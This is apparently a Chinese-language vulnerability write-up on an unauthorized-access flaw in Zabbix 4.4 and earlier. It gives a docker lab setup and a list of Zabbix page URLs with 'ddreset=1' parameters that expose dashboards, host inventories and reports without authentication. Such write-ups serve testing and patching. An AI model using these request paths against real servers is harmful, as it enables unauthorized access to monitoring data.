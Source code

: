 # Zabbix未授权访问漏洞

## 漏洞描述

Zabbix存在一个未授权访问漏洞，通过该漏洞，攻击者可以在未经授权的情况下访问Zabbix服务器上的数据，导致敏感信息泄露。

## **影响版本**

Zabbix <= 4.4

## 环境搭建

```
docker run -p 10051:10051  -p 80:80 zabbix/zabbix-appliance:ubuntu-4.0.12
```

## 漏洞利用

访问：http://192.168.32.183/zabbix.php?action=problem.view&ddreset=1

![image-20220726150813375](../../.gitbook/assets/image-20220726150813375.png)

访问：http://192.168.32.183/overview.php?ddreset=1

![image-20220726150910028](../../.gitbook/assets/image-20220726150910028.png)

访问：http://192.168.32.183/latest.php?ddreset=1

![image-20220726150855422](../../.gitbook/assets/image-20220726150855422.png)

还有以下链接可以访问：

- https://TARGET/zabbix/zabbix.php?action=dashboard.view
- https://TARGET/zabbix/zabbix.php?action=dashboard.view&ddreset=1
- https://TARGET/zabbix/zabbix.php?action=problem.view&ddreset=1
- https://TARGET/zabbix/overview.php?ddreset=1
- https://TARGET/zabbix/zabbix.php?action=web.view&ddreset=1
- https://TARGET/zabbix/latest.php?ddreset=1
- https://TARGET/zabbix/charts.php?ddreset=1
- https://TARGET/zabbix/screens.php?ddreset=1
- https://TARGET/zabbix/zabbix.php?action=map.view&ddreset=1
- https://TARGET/zabbix/srv_status.php?ddreset=1
- https://TARGET/zabbix/hostinventoriesoverview.php?ddreset=1
- https://TARGET/zabbix/hostinventories.php?ddreset=1
- https://TARGET/zabbix/report2.php?ddreset=1
- https://TARGET/zabbix/toptriggers.php?ddreset=1
- https://TARGET/zabbix/zabbix.php?action=dashboard.list
- https://TARGET/zabbix/zabbix.php?action=dashboard.view&dashboardid=1

